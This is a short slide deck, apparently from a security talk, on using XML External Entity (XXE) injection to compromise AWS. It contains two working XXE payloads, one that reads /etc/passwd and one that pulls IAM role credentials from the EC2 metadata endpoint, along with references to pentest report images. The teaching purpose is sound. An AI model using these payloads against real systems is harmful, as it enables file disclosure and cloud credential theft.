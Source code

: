 # XXE and AWS Compromise

---

## @fa[book](Background)
![diagram](xxe-aws-compromise/assets/diagram1.png)

---

## @fa[code](XML Entities)
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
```

---

## @fa[file-signature](Pentest Report)
![diagram](xxe-aws-compromise/assets/vuln1.png)

---

## @fab[aws](AWS Metadata)
```xml
 <?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [  
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/ec2-iam-role" >]><foo>&xxe;</foo>
```

---

## @fa[file-signature](Pentest Report)
![diagram](xxe-aws-compromise/assets/vuln2.png)
